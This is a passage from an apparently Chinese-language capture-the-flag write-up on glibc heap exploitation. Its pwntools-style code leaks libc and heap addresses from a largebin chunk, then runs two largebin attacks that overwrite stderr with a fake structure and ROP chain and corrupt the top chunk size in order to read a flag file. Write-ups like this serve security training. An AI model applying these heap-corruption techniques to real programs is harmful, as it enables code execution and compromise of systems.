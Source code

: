```bash
add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))
```

largebin chunk 还是很好泄露 libc 和 heap 地址的

[![](assets/1699929779-4efb31db5ce124fa735a1ae1f0278aad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001402-ff42b614-7f1a-1.png)

### 二、两次 largebin attack

```bash
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))
#改 stderr
add(5,0x440,"55555")
add(6,0x430,"./flag")
add(7,0x430,"77777")

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))
#改 top_chunk size
```
